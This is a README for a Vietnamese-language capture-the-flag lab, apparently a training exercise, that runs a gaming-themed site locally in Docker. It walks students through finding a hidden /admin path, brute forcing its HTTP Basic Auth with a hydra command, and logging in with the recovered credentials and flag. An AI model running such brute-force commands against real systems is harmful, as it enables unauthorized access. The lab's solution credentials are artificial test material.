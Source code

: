 
# 🧪 Basic HTTP Auth Brute Forcing Lab - Lugx Gaming Theme

Welcome to the Basic HTTP Authentication Brute Force Lab! In this lab, you'll be attacking a protected admin area hidden behind HTTP Basic Auth, styled with the professional-looking Lugx Gaming template.

---

## 🎯 Mục tiêu của Lab

- Khám phá endpoint ẩn `/admin`.
- Nhận diện HTTP Basic Authentication đang được sử dụng.
- Thực hiện brute force để tìm ra username/password.
- Truy cập vùng quản trị và lấy flag.

---

## 🚀 Khởi động Lab

### 1. Yêu cầu hệ thống

- Docker và Docker Compose đã được cài đặt

### 2. Khởi chạy lab

```bash
git clone <repo_url> basic-auth-lugx
cd basic-auth-lugx
docker-compose up --build
```

Truy cập trình duyệt: [http://localhost:8080](http://localhost:8080)

Bạn sẽ thấy giao diện của website Lugx Gaming như một trang bán game thực thụ.

---

## 🎓 Hướng dẫn học viên

### Bước 1: Khám phá trang chính

Mở trình duyệt và truy cập vào:
```
http://localhost:8080
```

Trang web hiện ra là một trang game (Lugx Gaming) với nội dung bình thường. Nhiệm vụ của bạn là **khám phá xem có khu vực nào đang ẩn không.**

### Bước 2: Fuzz endpoint ẩn

Thử truy cập các đường dẫn phổ biến như:
```
http://localhost:8080/admin
```

Bạn sẽ nhận được phản hồi:
```
HTTP/1.1 401 Unauthorized
WWW-Authenticate: Basic realm="Admin Area"
```

=> Xác nhận đây là **HTTP Basic Authentication**.

### Bước 3: Brute force với Hydra

Sử dụng `hydra` để brute force thông tin đăng nhập:

```bash
hydra -L wordlists/users.txt -P wordlists/passwords.txt localhost http-get /admin -s 8080
```

Trong đó:
- `-L`: danh sách username
- `-P`: danh sách password
- `/admin`: endpoint được bảo vệ
- `-s 8080`: cổng dịch vụ

Kết quả sẽ trả về khi tìm được tài khoản đúng:
```
[8080][http-get] host: localhost   login: gamer   password: lugx@123
```

### Bước 4: Truy cập với thông tin đã brute force

Sau khi có được thông tin `gamer:lugx@123`, bạn có thể truy cập admin:

```bash
curl -u gamer:lugx@123 http://localhost:8080/admin
```

Kết quả:
```html
<h2>Welcome to the Admin Panel</h2>
<p>Your flag is: <code>FLAG{brute_force_success}</code></p>
```

🎉 **Bạn đã hoàn thành bài lab!**

---

## 📝 Ghi chú

- Đây là lab CTF mô phỏng thực tế. Trong thực tế, không nên sử dụng HTTP Basic Auth nếu không kết hợp HTTPS.
- Đừng quên kiểm tra source code để hiểu cách hoạt động của HTTP Auth trong Node.js/Express.

---

Happy Hacking! 🎮

